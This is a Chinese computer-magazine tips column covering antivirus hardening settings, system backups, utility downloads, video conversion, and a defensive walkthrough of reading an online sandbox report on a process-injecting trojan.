“应用程序加固”不同于原先的“应用程序保护”。“应用程序加固”是为了抵御目前诸多的利用软件漏洞传播的病毒而设计的，比如病毒经常利用的IE浏览器、Office软件、Adobe Reader等等。基于此，我们通过限制这些程序的某些危险动作来达到防止病毒利用这些软件的漏洞传播的目的。下面以IE为例看看应用程序加固的作用：我们知道，目前很多网页木马都是利用IE漏洞传播的，因此可以把IE加到应用程序加固中，然后关掉木马入侵拦截（否则网马可能会被木马入侵拦截给拦截掉），单独测试应用程序加固的作用。当被加固程序启动时候，会弹出泡泡提示“该程序已经被加固”，当访问挂马网站的时候，应用程序加固提示阻止了IE的危险动作。感兴趣的读者可以试试关掉木马入侵拦截，专门测试应用程序加固的作用。应用程序加固目前有两种模板可以选择，一是浏览器，二是文档编辑程序。小提示：瑞星2010的主界面采用玻璃质感，主要分为“首页、查杀、防御、工具、安检”五大功能区域，划分合理，公测版只有一个界面外观可供选择。除了玻璃效果以外，瑞星2010版界面最大变化在于安全提醒和模式选择。浏览器可以添加IE，火狐等。文档编辑程序可以添加Office、Adobe Reader等。

> (瑞星安全工程师/唐威)

## 卸不全 装不上 金山网镖有话说

最近给电脑安装了金山2010网镖，但由于没有关闭原先版本的魔法盾，所以导致安装错误，将金山2010网镖进行卸载后，想重新安装。但奇怪的事情发生了，再次安装时提示“已经安装金山2010网镖，是否卸载？”的对话框，无论点“是”还是“否”没有反应。用安全卫士360等专业软件将金山2010网镖重新卸载之后，依旧无法进行安装。没办法，只好上网求助朋友，看看问题如何解决。经过一番询问，终于找到解决的办法。可以通过修改注册表来解决卸载不当导致无法重新安装2010网镖的问题。先进入注册表编辑器，然后找到[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID]，会看到9D9D919C-E789-4c1e-80E6-A089978EE730键值，将其删除掉。重启电脑后，再次安装金山2010网镖，一切恢复正常，可以顺利进行安装了。

> (辽宁/07073小新)

## 超级兔子之升级天使 电脑系统的升级管家

超级兔子9系版本的发布，带来了一次革命性的浪潮，功能分布和界面都有了改进，还能给我们带来什么新体验吗？今天我们先来看看它给你带来的升级体验，电脑里的升级问题统统交给它就可以了。

### 各取所需 补丁分类推送

对于使用电脑的人来说，无论是高手还是菜鸟终究避免不了一件事，那就是电脑软件的日常维护，这包括安装、更新、管理好几样内容，现在有了升级天使就变得容易多了，点击升级天使后，会弹出一个绿色风格的新页面，首先映入我们眼帘的就是系统和软件升级这一选项（默认），页面中的快速检测（推荐）是一般用户的首选，其他的不选，这里提示的严重漏洞一定要补上。第二项是全面检测，相比快速检测这里包含的内容更多一些，囊括了比如微软的Office办公软件漏洞补丁和微软补丁接口等，而底部的那个启用微软接口进行检测如果被勾选就将使用微软的自动更新，于是所有的补丁都会被列出，当然包括一些和安全无关的内容，至于是否符合用户需要这个就见仁见智了。

> 小提示：
系统升级了，其他软件怎么升级呢？切换到“软件管理”下，右侧就给出了你电脑上的软件列表，有需要更新的就会用红字来提示你“升级”。

### 自由定制 速度双重提升

最底下的自定义是用户的使用需求选择，因为安全补丁有程度等级，所以用户可以根据自己的实际情况选择下载过滤级别，通常系统补丁危险程度分为“严重、重要、中等、普通”，4个安全等级，我们根据需要选择就好了，小编还是建议全部勾选吧，补丁不怕多就怕少啊！说到自定义，补丁下载到哪我们也能设定。依次单击“使用帮助→功能设置”，勾选“存放至指定文件夹下”，然后指定补丁下载地址就好了。在下载设置中，将“单个任务使用的线程数”和“同时下载的最大任务数”都设置为最大值10，提升下载补丁的速度。

## 打造永不凋落的个人空间

我们都在强调自己的个人空间，获得自由，而且希望自己的个人空间不受打扰。当然，这样的个人空间也包括电脑，自己的文件不希望别人动，自己需要的东西希望永远在，原来这些文件要保持永不改变才行，自己的隐私照片只有自己可以看到，绝不出现XX门；平时操作需要的文件不能丢失，哪怕重装系统；自己工作常用的文件，在外地办公也能找到……建立一个永不凋落的个人空间，势在必行！首先明确我们的“个人空间”，电脑里属于自己的个人空间的文件分为三类：
- 绝密：防止别人看，防止删除
- 私有：个人专属文件，防止遗失
- 重要：不算秘密，但要防止删除，需要随时调用

### 前期：建立只读机密档案室

最简单的，那些私密照片、绝密文件、不需要修改的东西没得说，赶紧找个安全的保险柜放起来，这里就用到加密软件了，使用“文件密码箱”（http://7safe.cn/）建立一个防删除、防偷看、防复制的特殊文件夹，将绝密文件扔在里面就可以了（不会用的，可以参考2009年第14期《给你看隐私中的隐私 隐私保护软件的开发故事》）。

### 中期：数据备份留一手

绝密文件我们保护好了，剩下的就是私密文件了，这类文件主要是防止丢失，因为丢失以后事情变得很糟，哪怕是被删除了。网银、支付宝证书一旦丢失，系统重装就要惹大麻烦。另外，像近期正在处理的办公文件，那可都是汗水的结晶啊，绝对不能丢了。放入机密档案室呢，还不行，因为要随时调用，而且还会时常更新，这样的也就只能是留一手，及时备份了。

### 事先准备

- 1.网银备份
首先想到钱也不为过吧，网上银行比较敏感吧，如果你采用文件证书的形式的话就要注意备份了，平时不注意，一旦重装系统网上银行就不能用了，只能去银行办理重置了。这里我们以招商银行为例看看银行证书的备份。启动招行专业版，单击右上角的“专业版管理”，再单击界面左上角的“证书管理”，选择“证书备份”，然后指定一个硬盘位置，在指定备份文件的名称，如：证书备份，就可以了。重装系统恢复时，只需启动招商银行专业版，选择“证书恢复”，输入登录密码，找到保存的银行证书，回答一个保护问题后，再通过手机验证就可以恢复了。
- 2.支付宝备份
登录支付宝，单击“证书管理”会自动切换到“数字证书”下单击“备份证书”，在随后打开的页面中输入备份密码，单击“备份”，选择备份路径和文件名就可以了。
- 3.其他备份
其他需要备份的东西，除了自己近期工作的文件目录，珍藏多年的资料外，剩下的就是输入法的参数配置、工具软件的配置参数，这些平时重装软件的话即时恢复就可以保持习惯不变，了。搜狗输入法等都提供了用户账号模式，支持网络同步，这就不必说了。

### 备份实战

前面我们要备份的文件已经弄好了，我们可以把它们放在一个目录下，然后将其他防止遗失的文件也都放在这，例如：D盘下的“个人文件”。然后我们现在开始启用工具“FileGee个人文件同步备份系统”（下载地址：http://www.onlinedown.net/soft/17568.htm）。第一步：运行软件，依次单击“工具→选项”，勾选所有的选项保证安全使用，单击“设置密码”设置软件运行密码。第二步：现在开始备份，点击工具条中的第一个图标按钮，进入新建任务的向导，此处软件提供了“单向同步、双向同步、镜像同步等八种备份同步的类型（鼠标移动过去，会有说明），我们选择“更新同步”。在“任务名称栏”处，输入“文档备份”，点“下一步→浏览”，在系统中找到并选定我们刚才设定的“个人文件”，再按“下一步”选择保存备份文件的磁盘位置，如“D:\备份文件夹”。第三步：勾选“对文件进行压缩”项（要进行异地备份这项必须选），点“下一步”后进入以下页面，根据你的需要来设定文件的选择性备份，备份的方式、时间等，直到“扩展设置页面向导”，在此页中我们要勾选第二个选项“同步或备份的同时对文件进行加密”，并点“设置密码”按钮，设定密码，“确定”后，点“下一步”，直至“完成”，这样，别人要打开备份的文件是必须需要软件来解密的，至此已实现备份的同时加密文件了。第四步：当需要对文件解密或者是需要修改备份文件的内容时，可以用右键点击，系统托盘处的软件图标，在打开的右键菜单中，单击“文件恢复向导”，选取需要恢复的任务名称，此处的名称为“文档备份”，点击“下一步”选择需要解密或修改的文件，再单击“下一步”，在此你可以更改解密的路径，不过笔者建议还是保持原有路径不变，这样你修改完文件后，就可在软件中快速的执行任务，来重新备份和加密文件。

> 小提示：
“FileGee个人文件同步备份系统”还能将文件再复制一份备份到自己的邮箱，这就相当于免费的空间了。例如添加QQ邮箱：依次单击“设置→设置SMTP发信邮箱→添加”，输入邮箱名称“XXXXX@qq.com” SMTP服务器“smtp.qq.com”，端口号不变，然后是你的QQ号与密码。（需要在QQ邮箱中启用POP3/IMAP/SMTP服务），然后回到软件界面，在“功能窗口”的“附属任务窗口”下选取“备份至邮箱”项，即可在软件界面中增加一个邮箱操作窗口。

### 后期：远程备份不怕出差

聊天记录、工作文件都备份到本地了，出差时怎么办呢？怎么信手拈来呢？远程登录？别逗了，把文件放在网上不就可以了吗？自动增量备份，到了外地，安装一个客户端就可以恢复原来自己的文件了。这就是有备数据保护专家（下载地址：http://www.51backup.cn/download.html）的妙用了。第一步：软件安装完成后需要注册才能使用，可以从软件中进行注册（免费哦），也可访问有备官方网站http://www.51backup.cn，点击右上角“注册新用户”进行注册。注册成功后，系统将向注册邮箱中发送一封激活邮件，账户激活后就可以使用CloudEx云备份服务了。第二步：在客户端主界面上，就可以分类设定需要保存的数据进行备份了。选择“备份常用数据”，软件通过注册表自动查找到备份路径，右侧列表的“备份常用数据”窗口自动帮我们找出了需要的东西，如：邮件、MSN、QQ聊天记录、浏览器收藏夹，以及我的文档中的音乐、视频等，你只需要勾选相应软件就可以了。第三步：如果你需要自由定制备份内容，可以选择“备份文件和目录”项，在打开的显示窗口中，会看到电脑中所有的文件和目录，找到并勾选你需要的相应目录或目录下的任意文件，就可以完成定制备份了，需要进一步定制你的备份内容时，就打开“选项”在其“系统配置”中的“文件过滤配置”项里来设定不需要备份的目录或文件类型，通过文件名来指定哪些格式的文件需要备份，文件名可以是特定的文件名；也可以用通配符来表示多个文件，可以精确指定哪些目录、文件需要或不需要备份。第四步：选定完需要备份的内容后，进入“备份计划设置”，可以按照周或天来设置备份周期；也可以选择智能备份方式，设置了备份计划后，系统就会自动加密备份所选的文件和目录。软件的数据恢复有点类似XP的系统还原，可以选定一个备份点进行“还原”。点下主界面上的“恢复数据”，在“客户端”选择要恢复的主机名称（软件默认账户可以同时在两台电脑上使用，各自独立的进行备份工作，在恢复时，可以从任一台电脑上恢复所有的文件和目录），再选择文档备份对应时间点，勾选上该文档，就可以“找回”以前的版本了。

### 小编物语

“有备数据保护专家”的免费注册用户可以拥有1GB的网络存储空间，而咱们《电脑爱好者》的读者可以享受一个特权，只需将你注册的用户名以邮件的形式发到ruanj@cfan.com.cn（主题请标明“CFAN读者有备空间申请”），就可以获得免费的权限提升，我们准备了200个名额，最先发邮件的50名读者可将自己的空间提升到8GB，后150名可扩充到4GB。先到先得！按收到邮件的先后依次赠送，送完为止。(文/航瑞)

领导器重你，让托盘时间担负起更多的责任

托盘中的时间一般只显示简单的日期和时间，这么重要的位置，只担当这一点任务，未免太轻松吧？下面我们来给它加负，别担心，它承受得起哦！

显示硬件检测信息

运行“托盘秀”（下载地址：http://work.newhua.com/cfan/200915/tpx.zip）后，鼠标悬停于托盘时间处，弹出悬浮窗口，从该窗口中，可以查看到内存使用情况、CPU使用率、开机时间等信息。另外，“进程管理”可以查看到正在运行的程序，可以结束或暂停某个进程；“窗口管理”则可以对窗口进行隐藏、透明化、修改标题等操作；如果有一些重要的事务需要提醒的话，利用“定时提醒工具”可以设置提醒时间；

多日历外加定时提醒

“挂机锁屏工具”非常适用，当我们离开电脑时，可以利用它设置挂机密码来暂时锁定电脑。

安装Desktop Tray Clock（下载地址：http://work.newhua.com/cfan/200915/dtc.rar）之后，我们可以看到，托盘处显示的时间样式变了，这时你会发现，以前的托盘时间是多么老土！右击托盘处新的时间标志选择“主窗口”，弹出主窗口，单击“选项”，可以对日期、时间的格式进行设置；单击“原子时钟”，再单击“获取时间”即可自动连接服务器进行校时，最后单击“调整”即可。（江苏/曹春华）

别怪它无能，修复Realplayer下载视频

下载网络视频常用的Realplayer就可以打开任何一个在线视频，当鼠标移向视频时，将在视频上方显示一个“下载此视频”的按钮，点此即可下载。不过由于某些原因，这个按钮不见了就无法下载，怎么解决呢？

首先应该打开Realplayer，在“工具→首选项→下载和录制”中确保“为这些安装的浏览器启用Web下载和录制”已经勾选上。上面的选项勾选上以后，如果问题还有，或者重装Realplayer也不行，其实是被IE禁用了插件。下面打开IE，在“工具→管理加载项→启用或禁用加载项”，打开窗口，在IE当前加载的加载项里查看Realplay downloader and record plug for ie这个插件是否被禁用，选中后在下面的设置里选择“启用”，然后重启IE就可以了（rpbrowserrecordplugin.dll是RealPlayer媒体播放器的视频在线录制和下载功能的相关文件）。（陕西/韩宝玉）

文件移动、复制更简单



移动、复制文件，每天都要做上百遍，想想看吧！这真是一个复杂的过程，为什么不简化呢？教你一招，移动或复制，一拖而就。

运行“文件整理助手”（下载地址：http://work.newhua.com/cfan/200914/wjzl.rar），分别单击图中A处的各个“>”按钮，将自己保存各类不同类型文件的目录添加进来（见图B处），最后单击“完毕”按钮，完成添加的多个不同目录的保存工作即可，经过以上步骤的操作，以后如果需要将文件移动到窗口中已经添加的任意一个目录（如“F:\我的下载资源\安全工具”目录）下，直接将文件拖到相应窗口的文本框内即可，移动动作立即完成；如果动作是复制，先勾选上面的“复制”单选框即可。此外，单击图中B处所示的任意一个文本框，还可以打开该文本框所包含的目录以方便对移动或复制的文件进行进一步的处理。

同类软件还有Q-Dir（下载地址：http://www.crsky.com/soft/13206.html），四个浏览器分别对应经常用到的四个不同目录。（文/闫华礼）

转换高清别忘开启CUDA

自从NVIDIA推出CUDA，视频处理就如同迎来一阵春风，各种新的应用在这种新的接口技术下开始涌现，让显卡GPU可以进行并行计算，满足越来越多的处理需求，也给视频转换的速度带来了新的提升。如果你的显卡在NVIDIA Geforce 8以上系列，那么就可以随我一起体验MediaCoder（下载地址：http://work.newhua.com/cfan/200916/mcoder.rar）的视频转换乐趣了。

实例1 高速转换借力CUDA

视频转换的工具非常多，目前基本已经没有格式的限制，于是速度成为我们关注的焦点。软件的选择上，今天就要有新的突破了，支持CUDA自然可以让转换更加迅速，虽然官方也有了转换工具，但是能借用CUDA的能力，转换RMVB格式支持的转换软件不多，但好在MediaCoder（下载地址：http://work.newhua.com/cfan/200916/mcoder.rar）已经可以用了，而且不仅仅是RMVB，其他的格式也能通吃。

第一步：下载后安装，在安装中要选择“完全安装”以便使用高级功能，运行软件，依次单击“文件→打开”，添加要转换的视频文件。

第二步：在下面按钮的左侧选择“视频”，在“解码器”一栏，先取消“自动选择”的勾选，然后选择CUDA Encoder，右侧的CUDA设置保持默认即可，然后依次单击“任务→开始”，转换就开始了，很快转换完成。

为了对比CUDA的特性，我们选择了ACER aspire revo来作为电脑平台进行对比，开启CUDA前，转换一个85MB的视频文件需31分零5秒的时间，而开启CUDA后，仅需8分23秒，CUDA加速的魅力完美展现。

实例2 专属转换批量做

懂得了CUDA的好处，肯定想立马用上吧。手边的iPod、MP4都可以享受了，而且还可以再度加速，批量完成。

第一步：将要转换的文件都拖进MediaCoder的任务窗口，依次单击“功能→扩展界面→数字媒体播放器→iPhone/iPod”。

第二步：出现提示是否恢复所有参数到默认值，选择“是”，然后设置下转换的调整格式、码率、帧率(FPS)等参数后点“开始”进行转换即可，也可直接用默认值。

第三步：很多视频上面都有些广告，放在移动设备里很不爽，我们就可以把它去掉。单击“画面裁剪→手动设置裁剪参数”，然后按住鼠标拖动视频窗口进行调节就好了，随意调节。最后单击“完成”回到设置窗口，单击“开始”，转换开始。（北京/刘力力）

简单时代来临，随手添加进“云端软件”

云端软件平台的优缺点用过的都知道了，添加软件是一个大麻烦事，之前我们提供过手动添加的方法，需要多步操作，现在笔者发现了一个特别简单的方法，一个工具，几个按钮就可以解决了，再来看下如何添加KMplayer。

这个工具就是“云端软件绿色添加器”（简称添加器，下载地址：http://work.newhua.com/cfan/200915/ydtj.rar），要给云端软件平台添加软件，这个软件目前还只能是绿色软件，不过这也问题不大，很多软件的绿色版本在网上都可以找到。运行添加器后，首先让它知道老大——云端软件平台在哪，单击“打开”按钮，找到云端软件平台安装目录下的LastRun.ini（注意这里不是cloud.exe哦），接着指定云端软件的缓存目录，单击箭头选择硬盘，然后在列表中指定CloudCache，下面开始添加绿色软件，单击“添加软件路径→打开”将要添加的绿色软件的EXE文件，如KMplayer.exe找到并添加进来，再单击“添加→将软件添加到云端中”就OK了，启动云端软件平台，KMplayer软件就出现了。

云端软件平台的CloudCache可以单击“登录”按钮旁的箭头，然后在“设置→缓存设置”看到目录。另外，添加器可以修改你要添加的图标，单击添加器的“修改图标”，选择使用预定图标或自定义图标都可以。（陕西/侯红）

3G上网 帮你算算你需要的套餐

3G已经从大家关注的热点转到实际的使用了，3G上网本也成为很多人考虑的目标，但资费问题让我们犹豫不决，自己到底适合哪种呢？你不用犯愁，你正常上网，然后找个家伙给你算算吧！

首先我们不用有任何顾虑，按照平时的使用习惯正常上网，使用电脑即可。接下来就是安排好NetWorx（下载地址：http://work.newhua.com/cfan/200914/ljk.rar）的工作。

先解压到一个目录下，运行后软件添加一个自启动项（因为是统计平时上网流量，所以这里一定要确保开机自启动），然后检查升级，勾选“否”即可，这样我们就不用管了，一个月后我们启动软件，单击“每月报表”，软件就给出了一个月份的流量统计，一个月到底会产生多少流量就一清二楚了。如果开始测试的日期不是月初怎么办？切换到“自定义”一栏下，指定开始和结束日期就好了，看着不太方面，还可以单击“输出”，将当前所看信息保存为Excel表格，再对比流量套餐，你就知道该选哪种套餐了。

用别人的沙盘 玩自己的木马

恶意的程序通常都有明显的危险行为，遇到一个不明的程序，我们可以通过沙盘的行为记录来知晓他到底要干什么，看清它的底细，严防破坏。对于菜鸟来说，难道就比较头大了，沙盘的使用就是个麻烦，而且分析起来更摸不着头脑了。如果有人弄好了一个沙盘让你随便用，而且还给你分析结果，你想试试吗？

第一步：登录http://www.norman.com/security_center/security_tools/submit_file/en，在第一个框中填图片的内容（也就是验证码），第二个框填你的电子邮箱的地址，第三个框点击浏览，选择要上传扫描的文件（可执行文件）；然后点upload（上传）。上传成功后稍微等一下，让网站为我们分析一下文件，分析完成后会给我们发来邮件的。

第二步：这个过程一般是10分钟，这个分析报告一般包括DetectionInfo文件详细信息，如果是病毒便会报出病毒名字，比如我的这个是W32/Hupigon.CVQU，Changes to filesystem（文件系统的改变）、Changes to registry（注册表的改变）、Process/window information（进程与窗口信息）、Signature Scanning（数字签名扫描等信息），虽然是英文的，但是单词都很简单，“百度”一下就能看懂。

上面是随便找了一个流行的小木马，所以危害行为比较少，重点看Process/window information（进程与窗口信息）栏下的内容（见下表）

| 代码 | 分析 |
|------|------|
| Creates an event called | 创建事件消息 |
| Creates process "IEXPLORE.EXE" | 启动了一个浏览器程序，这个行为比较可疑，因为现在的木马为了穿防火墙，一般都选择浏览器做突破口 |
| Reads memory in process IEXPLORE.EXE | 读取浏览器的内存数据，一般情况下，除了一些插件程序和安全软件，普通的程序是不会读取其他程序的内存的 |
| Modifies memory in process "IEXPLORE.EXE" | 修改浏览器的内存，是恶意程序的可能性极大 |
| Modified OS kernel function code in process "IEXPLORE.EXE" | 修改浏览器的核心代码 |

从这里看出，这个程序打开浏览器的内存后，向里面注入了自己的数据，这是一个进程插入型的木马，再仔细看，里面没有向浏览器插入DLL文件的报告，也就是说，木马直接把自己注入到浏览器的内存中，就算是用进程查看软件查看载入模块的情况也看不到木马，再看一条：Modifies execution flow of process IEXPLORE.EXE，它是要修改浏览器的执行流程。

综合以上所述，这是一个具有高级隐藏特征的木马程序，本来还有关于网络操作的报告，包括开启的端口，连接的IP地址，网络读取的文件等，只是因为这个样本没有开启网络方面的功能，所以没有相关报告。在其他的项目里就是它的行为，要是不小心中了它，查杀即可。

小提示：

在线沙盘除了进行行为检测外，还会对文件进行特征码扫描，因此它是进行病毒（特别是未知）分析、处理的有力工具。需要注意的是Sandbox所虚拟的运行环境与真实环境有一定的差异，分析结果可能会与病毒在真机上的动作有所不同（通常是进退某些动作）。

学会两工具 菜鸟也能变大虾

现在HIPS软件很多，但是对于像我这样的菜鸟来说用起来确实不便，相信就算是高手看着那一条条的规则也会心烦意乱，这时候我们可以请SREng来帮忙，它是由连续五年获得微软最有价值专家的Smallfrogs开发的，傻瓜式的操作，强大的智能分析及丰富的插件功能是这款软件的特点；如果再配合一些家族性工具，可以说“如虎添翼”！

第一步：运行软件（下载地址：http://work.newhua.com/cfan/200916/sreng2.zip）点击“智能扫描”按钮，勾选所需项目，单击“扫描”，软件就会自动对系统进行“智能分析”，分析完成后单击“保存报告”按钮，保存报告。

第二步：完善的分析不稀奇，如何分析报告呢？将SREng生成的Log文件复制到SREngLog智能分析专家的目录下，然后运行软件SREngLog智能分析专家（下载地址：http://work.newhua.com/cfan/200916/arefx.rar）后，单击“智能分析”，软件会自动对其进行分析，完成后，单击“导出分析报告”，打开保存后的分析报告，完全中文的步骤式说明，如果有木马或者是病毒，里面会给出详细的处理方法，按照其“指令”操作就可以了（报告中的提示操作也需具体对待哦，如果是自己安装的小工具就不要随便删了）！

小提示：

软件运行后会自动生成一个新标题的程序并运行它（类似IceSword），防止病毒通过标题发送WM_COLSE消息将其结束！它提供的启动项目管理与Sysinternals工具包中的Autoruns差不多，提供的系统修复功能与Syscheck、IceSword等安全软件的功能类似，可以说有了它对于菜鸟来说可以省掉很多事！软件还有一些实用插件，可登录http://www.kztechs.com/sreng/plugins.html下载。

(文/hihacker)

文件安全 养只兔子就行了

超级兔子的诞生已经十多年了，直到9.0 Beta3版已经增加了N多的实用功能，外观也从开始的个性化向现在的实用性转变。几年前再次接触超级兔子软件，一直用到现在，对其中的很多实用功能赞不绝口，今天为大家介绍下如何保证文件安全。

超级兔子安全助手可以解决系统、磁盘、文件夹，文件的安全问题，不让别人查看或者复制指定的文件，让个人隐私得到了极大的保护。点击超级兔子软件，进入“工具→文件安全助手→隐藏磁盘”，这里可以将不想被别人看到的磁盘隐藏起来，初次使用，所有的磁盘都是未勾选的，将想要隐藏的磁盘打勾下一步即可，如果想继续使用隐藏后的文件，记得把“允许使用隐藏后的程序及文件”打勾哦。

既然可以隐藏磁盘，那可不可以伪装文件呢？答案是当然可以，比如说把一个正常的文件夹伪装成控制面板，呵呵，神奇吧！先用“装入文件夹”把需要保护的文件夹“添加”进去，勾选按“下一步”就可以了。如果想取消保护直接去掉勾，如果要完全取消，点击“取出文件夹”后点击“下一步”即可。

加密解密文件是比较繁琐的，加上密码后可以对原有文件内容进行重新编码，重新编码后的内容就会变成其他字符，使得别人无法看到正确的内容。点击“加密文件→下一步→加入文件”，无论是一个还是多个文件，如果想加密都可以拖到列表中，点击“下一步”后，填写加密所用的密码，一定要记得密码哦，如果忘记了，密码是无法还原的。最后选择在哪个位置生成文件，这里加密时为文件添加一个密码，取个名字，解密时将解开的文件保存在哪个文件夹。

锁定文件简单实用，依次单击“锁定文件→加入文件→下一步”即可。锁住指定的文件或程序，能让文件不被别人复制、删除、运行、移动或打开。

无论使用以上哪个功能，都可以让想要保护的文件固若金汤，从此不再为文件的安全担惊受怕，还等什么，马上去体验吧。

Picasa查看图片 可与众不同

Picasa从3.0版本开始便新增了个照片查看器小工具，在安装Picasa时，它会一并安装。Picasa照片查看器能够让你快速查看资源管理器中各类照片的辅助小工具，更加美观的同时，我们还有新的功能应用，接下来同大家一起分享。

实例1 在浏览中修改图片

打开图片便会调出Picasa照片查看器，左下方已经列出了诸多工具按钮，例如有放大/缩小图片、在Picasa中修改、幻灯片演示等，这时只需单击“在Picasa中修改”按钮，就能顺利进入Picasa照片修正窗口。而假如想将该文件夹中的所有图片以幻灯片的形式来演示的话，则可点击中间那个播放箭头按钮就行。

实例2 电子邮件发送图片

如果想将某张图片通过电子邮件发送给朋友，我们在Picasa照片查看器中只需单击右下方的“更多选项”按钮，而后在弹出的快捷菜单中选择“电子邮件”命令，这时系统会出现“选择电子邮件”对话框，从中选择一种电子邮件发送方式，最后打开电子邮件发送页面进行发送就行了。

小提示：

假如你在查看图片时没能调出Picasa照片查看器，可在开始菜单中选择“Picasa照片查看器”选项，在弹出窗口中确保下方“不使用Picasa照片查看器”此项没被选中，单击“将Picasa照片查看器用作以下文件类型的默认查看器”旁的单选按钮，并在下方将自己想让Picasa照片查看器显示的图片类型统统勾中，最后“确定”退出。

(武汉/王勇)

新版尝鲜我首发 4.0新功能探测

近日，ESET公司正式发布了旗下最新一代安全产品——ESET NOD32 Antivirus V4和ESET Smart Security V4，第四版是不是能给我们一些惊喜呢，笔者从尝鲜及实战两个点上带大家体会一下管中窥豹的乐趣。

扫描大小、深度随意调

使用其他杀毒软件对一些容量大或者嵌套层次很深的压缩文件进行查杀病毒时，会花上很长的时间，而在NOD32 4.0中，我们可以自由地设定扫描深度及大文件自动跳过时间。

通过系统托盘的NOD32 4.0图标打开主窗口，在左栏选择“设置”项后，再依次点击“切换到高级模式→确定→显示所有高级设置”，选择好“文件系统实时保护”项，单击“ThreatSense引擎参数设置”后的“设置”按钮，在左栏选择“限制”项，再在右栏取消两个默认的勾选，再根据需要来分别设置扫描深度、文件大小及跳过时间。

USB接口 说关就关

为了防止病毒通过U盘这类移动存储设备传播，还能根据需要将某些接口单独禁用。

按上面的方法选择“文件系统实时防护”的下级选项“高级设置”，在右栏勾选“阻止可移动磁盘”。单击“例外”按钮，从“允许的可移动磁盘”中勾选不需阻止的接口，完成后单击“确定”按钮返回即可使除此接口外的其他USB端口给屏蔽起来。

金疙瘩捡现成 你的配置我来用

工具总有个熟练的时候，所谓熟能生巧，软件用长了，都会有自己的一些改进加入，例如输入法的自定义常用语、杀毒软件的自定义规则等，这些都是平时使用时提炼出来的东西，是珍贵的“金疙瘩”。看到同事、同学利用这些金疙瘩得心应手地工作，是不是很羡慕？别急，下面就让咱们来捡个现成，把别人的金疙瘩拿来直接用！

金疙瘩之配置借用 输入好轻松

- 第1步：在同事电脑上打开搜狗输入法窗口，依次选择“菜单→设置属性→词库”选项卡，然后点击“用户词库管理”下拉列表，选择“词库备份→执行该操作”按钮，将词库文件备份到闪盘上。

- 第2步：接着上一步的设置界面，切换到高级下，单击“自定义短语设置→直接编辑配置文件”，出来提示，单击“确定”打开文件，将文本最后的部分（格式如“#1=一”）复制出来，另存为一个文本在闪盘上。

- 第3步：在自己的电脑上，按步骤1同样方法进入到搜狗输入法设置窗口，点击“用户词库管理→词库导入→执行该操作”按钮，将目标指向此前备份到闪盘上的词库文件即可。然后再按第2步中的步骤，打开配置文件，将之前复制的同事的自定义短语文字粘贴进来，保存即可。

选择“词库导入”，是将同事的自定义常用语叠加到自己的自定义设置上，选择“词库恢复”则是用同事的自定义设置覆盖自己的自定义设置。

同样的病毒，同样的杀毒软件，同样的魔法盾EQ，朋友的电脑却没有中毒，而我的用机却被毒杀。原来是自己加了不少规则，如果把他的规则捡个现成，拿过来用到自己的EQ上，岂不美哉。

金疙瘩之规则共享 你我都安全

- 第1步：在同事电脑上，打开EQ主界面，点击“应用程序保护”后面的“设置”按钮打开设置窗口。选择“工具→导出规则”命令，将规则导出到闪盘上备用。同理，我们需要将“注册表保护”、“文件保护”规则一一导出到闪盘上。

- 第2步：回到自己的电脑上，按同样方法进入到设置窗口，选择“工具→导入规则”命令，将闪盘上的三个规则一一导入即可。这里要注意的是“工具”菜单上的“备份规则文件”和“恢复规则文件”是覆盖恢复，而导入导出规则则是叠加规则。

金疙瘩之装饰借用 同样美丽

- 第1步：运行QQ空间克隆器（下载地址：http://work.newhua.com/cfan/200916/qqr.rar），在地址栏输入自己的空间地址，单击“登录我的QQ空间”，输入账号、密码、验证码放心登录吧。只有这样软件才可以工作。

- 第2步：单击上方的“第二步：开始克隆QQ空间”，在左侧输入你想要看的漂亮空间主人的QQ号，单击“准备”，软件会提示你可以克隆的项目，检测完你可以取消勾选来去掉不想复制的东西。最后单击“克隆”，空间装扮就开始了。

- 第3步：一会，软件提示克隆完成。再看你的空间，就有了别人的漂亮的打扮了。省事吧！别忙，赶紧单击上方的“保存装扮”，操作完成。

金疙瘩之 Office 个性化设置

- 第1步：点击菜单“开始→所有程序→Microsoft Office 2003/2007→Microsoft Office 2003/2007用户设置保存向导”，打开“Microsoft Office 用户设置保存向导”，点击“下一步”按钮，向导将搜索已有的Office个性化设置，点击“保存本机的设置”。然后按“下一步”并将保存位置指向闪盘直到完成。设置程序会在闪盘指定的路径下生成一个“新建设置文件OPS”的文件。

- 第2步：回到自己电脑，打开“Microsoft Office 2003/2007 用户设置保存向导”对话框，选择“将原先保存的设置恢复应用到本机上”。按照上面的提示导入即可。

默认程序争风吃醋 教你一键切换

不知不觉已经在电脑里装满了各式软件，多倒无所谓，关键是他们争风吃醋，常常提示把自己作为默认打开方式，例如图片、视频或是网页浏览器，一不小心就换了默认软件，再修改就麻烦了吧。其实可以一键切换哦！

运行360安全卫士，切换到“软件管家”下，依次选择“高级工具→设置默认程序”，在左侧可以看到几个文件打开方式的类别，例如点击“默认图片浏览器”，右侧就给出了已经安装的图片浏览软件，用“对号”表示出了打开图片默认启动的程序，要切换默认程序，只需在相应的程序后单击“设为默认”即可。不清楚哪个好，在程序后面有评分，还可以单击“查看支持的格式”看到该软件支持的图片格式。（河南/爽歪歪）

玩游戏 你准备好了吗

游戏游戏我爱你，这几个字，说起来简单，可是对于市面上这么多如待嫁姑娘一样要求高的各类游戏，爱她并不容易。为了结束游戏迷对游戏的单相思，请游戏迷跟我一起时刻准备着。

按需定制 配一台全部达标的电脑

- 第1步：既然是为了玩游戏而升级电脑，那咱们就按游戏的要求来配置吧！登录http://inmark.inpai.com.cn/，选择一下你想玩的游戏，上面有分类，单机或是网络游戏，切换按钮，然后选择下面的具体游戏（可多选），例如选择了“武装突击”。

- 第2步：单击右侧的“下一步 组建配置”，进入下面的页面，然后按照顺序，选择主板、显卡、CPU、内存、硬盘，选择完成，下面就给出了总的价格。在你选硬件的过程中，一旦出现硬件不匹配的问题，网站会有警告提示，那就换个硬件了。

硬派网的数据是实时更新的，用户选择产品的规格、价格都能一目了然。硬派网也有针对每款游戏的热门产品进行推荐。

- 第3步：这样的选择模式是不是感觉也没什么？怎么知道自己的选择适合“武装突击”游戏不？别担心被我忽悠了，接着单击“下一步 查询结果”，很快的分析后，结果出来了，直接告诉你适不适合玩你的目标游戏。结果显示不符合，一看右边的分项结果，其他硬件都通过了，只有自己选择的显卡不行，硬件网给出了一建议硬件，单击“试试我们推荐的硬件”，你的配置单的显卡就自动更换了，再看评分，已经OK了。

装修新房 游戏才有安乐窝

